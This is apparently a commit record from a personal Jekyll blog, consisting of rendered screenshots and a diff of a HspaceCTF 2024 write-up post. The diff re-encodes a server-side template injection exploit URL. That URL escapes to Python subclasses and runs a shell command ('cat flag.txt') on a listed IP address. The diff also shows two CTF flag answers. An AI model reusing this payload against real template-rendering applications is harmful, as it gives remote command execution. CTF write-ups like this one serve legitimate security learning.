

Before and after one commit to jiniljeil/jiniljeil.github.io, a Jekyll site: the page built from _posts/2024-01-13-HspaceCTF 2024.md, in a window 1280 px wide and 900 px high, scrolled down 1683 px. Shown: the part 149-439 px from the top of the window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed lines change nothing that is shown.

Commit message:
HspaceCTF

````diff
--- a/_posts/2024-01-13-HspaceCTF 2024.md
+++ b/_posts/2024-01-13-HspaceCTF 2024.md
@@ -52,7 +52,7 @@ def Prevent_SSTI(input):
 키워드 위주로 필터링이 걸려있어 이를 우회해주면 된다.
 
 ## Exploit Code
-`http://3.34.190.217:1337/?name=\{\{request[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()\}\}`
+`http://3.34.190.217:1337/?name=%7B%7Brequest[%22__%22+%22class%22+%22__%22].mro()[3].__subclasses__()[494](%27cat%20flag.txt%27,shell=True,stdout=-1).communicate()%7D%7D`
 
 ### FLAG
 hspace{57a32c35915278d4de4ca21a8dc22b7f642a2a33e1508050c9498e1e48290e38}
@@ -549,5 +549,5 @@ r = requests.get(
 print(r.text)
 ```
 
- ### FLAG
- hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}
+### FLAG
+hspace{0eabbdb7a226290c9f5a6eae6d72d6c1}
````
